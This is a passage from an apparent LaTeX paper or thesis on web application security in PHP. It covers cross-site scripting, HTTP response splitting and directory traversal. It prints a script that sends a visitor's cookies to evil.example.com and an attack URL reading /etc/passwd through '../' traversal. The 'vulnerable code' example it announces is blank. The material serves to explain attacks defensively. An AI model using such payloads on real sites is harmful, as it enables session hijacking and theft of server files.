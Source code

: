 \begin{htmlcode}
<script>
  image = new Image();
  image.src = "http://evil.example.com/?c=" + document.cookie;
</script>
\end{htmlcode}

This code would send the site's current cookies to the server \texttt{evil.example.com}. The cookies can include the user's current session ID, which would allow the attacker to use the session ID for conducting a session-riding attack (which is also called ``session hijacking'').~\cite{kunz-esser}

\subsection{HTTP Response Splitting}
\label{http-response-splitting}
An HTTP response splitting attack is based on code allowing unsanitized CRLF (0x0d0a) character combinations to be included in HTTP headers, thus creating multiple headers.

However, as of PHP versions 4.4.2 and 5.1.2, the \texttt{header()} function only allows one header at a time, thus preventing header injection attacks. \cite{php-manual-header}


\subsection{Directory Traversal/Path Traversal}
\label{directory-traversal}
Directory traversal (also known as \emph{path traversal}) is possible if a vulnerable application includes or outputs a file using a path that comes from an untrusted source. If the application does not check that the path is relative and does not contain two dots (\texttt{..}) (directly or URL-encoded), it is possible to read or overwrite files that should not be visible, e.g. \texttt{/etc/passwd/} or the file with the database credential of the application.

This is an example of vulnerable code:


An attack URL could look like this:

\begin{textcode}
http://www.example.com/index.php?file=../../../etc/passwd
\end{textcode}


